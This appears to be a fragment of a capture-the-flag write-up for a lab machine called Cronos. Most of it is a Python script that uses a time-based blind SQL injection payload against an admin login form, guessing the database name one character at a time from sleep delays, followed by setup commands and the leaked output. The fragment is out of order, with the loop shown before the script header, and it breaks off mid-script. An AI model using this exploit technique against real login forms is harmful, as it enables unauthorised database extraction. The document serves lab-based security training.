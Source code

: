 ```python
        for character in characters:
            post_data = {
                'username': "admin' and if(substr(database(),%d,1)='%c',sleep(5),1)-- -" % (position, character),
                'password': 'admin'
            }

            p1.status(post_data['username'])
            time_start = time.time()
            r = requests.post(admin_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 5:
                database += character
                p2.status(database)
                break

if __name__ == "__main__":

    makeRequest()
```

```bash
python3 sqli.py
# ModuleNotFoundError: No module named 'pwn'

sudo pip3 install pwntools

python3 -m venv ./
./bin/python3 ./bin/pip3 install pwntools
./bin/python3 sqli.py
# [*] Databases Leak: admin

nvim sqli.py
```

> **sqli.py**:

```python
#!/usr/bin/python3

from pwn import *
import signal, time, requests, string, pdb

def def_handler(sig, frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
admin_url = "http://admin.cronos.htb/index.php"
characters = string.ascii_lowercase

def makeRequest():

    p1 = log.progress("SQLi")
    p1.status("Initiating brute force attack")

    p2 = log.progress("Tables Leak")

    time.sleep(2)

    tables = ""
```